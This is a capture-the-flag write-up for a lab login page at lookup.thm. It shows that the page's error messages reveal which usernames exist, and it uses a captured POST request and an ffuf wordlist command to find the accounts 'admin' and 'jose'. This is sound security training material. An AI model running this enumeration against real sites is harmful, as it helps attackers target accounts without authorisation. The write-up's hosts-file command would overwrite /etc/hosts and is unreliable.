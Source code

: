 `RHOST:80` redirects us to an unresolvable domain: `lookup.thm`, so we'll have to add it to our hosts file.
`sudo echo "RHOST lookup.thm" > /etc/hosts`.

It's a pretty basic login form. I typed in `admin` and a password and it yielded something along the lines of:
> Wrong password.
> Redirecting in 3 seconds.

I tried `root` as the username and a passwword and it yielded something like:
> Wrong username and password.
> Redirecting in 3 seconds.

Well that's great! The server is telling us what usernames are valid to enumerate through. We'll use Burpsuite to check out these requests a little more.
![Burpsuite Output](burpsuite_output_lookup.png)

```
POST /login.php HTTP/1.1
Host: lookup.thm
Content-Length: 29
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://lookup.thm
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://lookup.thm/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=admin&password=foo
```

This request implies that whenever we attempt a login on the form/server, we are sending a POST request to `/login.php`, using the HTTP Content-Type: `application/x-www-form-urlencoded`.
- We can also note that a successful username attempt has a response content-length of 62, so when we fuzz for usernames we can use the `-ms` flag to tell us if we've enumerated a username successfully.

Let's fuzz through the usernames with a wordlist (thanks **seclists**).
```
┌──(averie㉿kali_wsl)-[/usr/share/seclists/Usernames]
└─$ ffuf -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=foo" -w "/usr/share/seclists/Usernames/Names/names.txt" -u http://lookup.thm/login.php -ms 62 -c

...

admin                   [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 126ms]
jose                    [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 124ms]
:: Progress: [10177/10177] :: Job [1/1] :: 344 req/sec :: Duration: [0:00:35] :: Errors: 0 ::
```
